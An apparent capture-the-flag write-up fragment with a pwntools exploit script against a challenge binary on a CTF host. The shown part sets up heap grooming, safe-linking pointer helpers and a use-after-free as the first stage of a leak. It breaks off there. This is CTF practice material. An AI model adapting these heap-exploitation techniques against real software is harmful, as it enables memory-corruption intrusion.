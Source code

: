 ## Exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./main_patched")
libc = ELF("./lib/libc.so.6")

context.binary = exe
context.terminal = ["tmux", "splitw", "-hf"]

def fastbin_encrypt(pos: int, ptr: int):
    return (pos >> 12) ^ ptr

def fastbin_decrypt(val: int):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

if args.LOCAL:
    p = process([exe.path])
    if args.GDB:
        gdb.attach(p)
        pause()
else:
    p = remote("dojo.elmo.sg", 40501)

def add(code: bytes, size: int, data: bytes):
    p.sendlineafter(b"> ", b"1")
    p.sendlineafter(b"code:", code)
    p.sendlineafter(b"length:", str(size).encode())
    p.sendlineafter(b"description:", data)

def search(code: bytes):
    p.sendlineafter(b"> ", b"2")
    p.sendlineafter(b"code:", code)
    p.recvuntil(b"description:")
    p.recvline()
    return p.recvline()[:-1]

def delete(code: bytes):
    p.sendlineafter(b"> ", b"3")
    p.sendlineafter(b"code:", code)

# good luck pwning :)
# --- PART 1: leaks (heap, libc, stack, canary) ---
# set up the tree
for i in range(10):
    add(f"CS{i}001".encode(), 0x70, b"asdf")

add(b"CS2001", 0x70, b"asdf")

# fill up 0x80 tcache
for i in range(9, 2, -1):
    delete(f"CS{i}001".encode())

# uaf
delete(b"CS2001")
```